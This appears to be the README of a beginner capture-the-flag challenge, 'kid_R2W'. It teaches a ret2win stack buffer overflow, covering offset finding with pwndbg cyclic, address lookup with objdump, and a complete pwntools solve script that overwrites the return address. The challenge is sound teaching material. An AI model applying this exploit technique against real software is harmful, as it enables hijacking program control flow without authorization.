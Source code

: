 # Challenge Name
kid_R2W

## Learning Objective
Extended from BOF. Learn to find and rewrite return address to another function

## Description 
We want to win! But... how to win?

## Difficulty:
Guided (easy)

## Guide
In the code, 
1. `enlightenment` function has a vulnerable `gets` function.
2. `hiddenBlessing` function contains the flag.

We want to perform ret2win in this case.

#### What we need to do:
1. Find the exact offset before it overflows
2. Find return address of `hiddenBlessing` address

#### To find the offset needed:
1. use `cyclic 200` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `raaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address.

```shell
pwndbg> cyclic -l raaaaaaa
Finding cyclic pattern of 8 bytes: b'raaaaaaa' (hex: 0x7261616161616161)
Found at offset 136
```

#### To find the win address:
```shell
$> objdump -d kid_R2W_bin | grep hiddenBlessing
00000000004006d7 <hiddenBlessing>:
...
```

#### How do we place inputs for the options then?
You can do the following so that it sends what you want after the binary output:
```python
input = b"abc\n"
p.sendafter("binary output", input)
```

With that knowledge, we can put our solve script together!

#### Final Solution
```python
from pwn import *

# local solve
p = process("./kid_R2W_bin")
context.binary = "./kid_R2W_bin"

# remote solve
# p = remote (server, port)

# hiddenBlessing function
win = p64(0x4006d7) + b'\n'

# Choose option first to enlightenment function
option = b'2\n'
p.sendlineafter("purpose: \n", option)


# send payload after sendting option
payload = b'A' * 136  
payload += win        
p.sendafter("know? \n", payload)

p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. which part of the code has a vulnerable C function?
2. check out sendafter: https://gist.github.com/zafirr31/bc37cacae5540d865de164f9ea16b679

## Attached Files
- chall.c
- chall

## Resources
- https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win
- https://gist.github.com/zafirr31/bc37cacae5540d865de164f9ea16b679
- https://docs.pwntools.com/en/dev/tubes.html


## Flag
TBD